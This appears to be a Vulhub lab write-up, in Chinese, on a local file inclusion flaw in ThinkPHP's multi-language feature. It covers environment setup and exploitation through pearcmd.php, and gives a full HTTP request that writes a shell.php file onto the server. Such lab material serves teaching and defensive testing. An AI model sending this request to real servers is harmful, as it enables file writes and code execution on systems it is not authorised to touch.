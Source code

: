 # ThinkPHP 多语言本地文件包含漏洞

## 漏洞描述

ThinkPHP是一个在中国使用较多的PHP框架。在其6.0.13版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用`lang`参数来包含任意PHP文件。

虽然只能包含本地PHP文件，但在开启了`register_argc_argv`且安装了pcel/pear的环境下，可以包含`/usr/local/lib/php/pearcmd.php`并写入任意文件。

参考链接：

- <https://tttang.com/archive/1865/>
- <https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp> （本文介绍了`pearcmd.php`利用技巧的原理）

## 环境搭建

Vulhub执行如下命令启动一个使用ThinkPHP 6.0.12版本开发的Web应用：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到ThinkPHP默认的欢迎页面。

![image-20230504110841526](images/image-20230504110841526.png)

## 漏洞利用

首先，ThinkPHP多语言特性不是默认开启的，所以我们可以尝试包含`public/index.php`文件来确认文件包含漏洞是否存在：

![image-20230504111549577](images/image-20230504111549577.png)

如果漏洞存在，则服务器会出错，返回500页面。

文件包含漏洞存在的情况下还需要服务器满足下面两个条件才能利用：

1. PHP环境开启了`register_argc_argv`
2. PHP环境安装了pcel/pear

Docker默认的PHP环境恰好满足上述条件，所以我们可以直接使用下面这个数据包来在写`shell.php`文件：

```
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

如果服务器返回pearcmd的命令行执行结果，说明漏洞利用成功：

![image-20230504111600929](images/image-20230504111600929.png)

此时访问`http://your-ip:8080/shell.php`即可发现已经成功写入文件：

![image-20230504111609053](images/image-20230504111609053.png)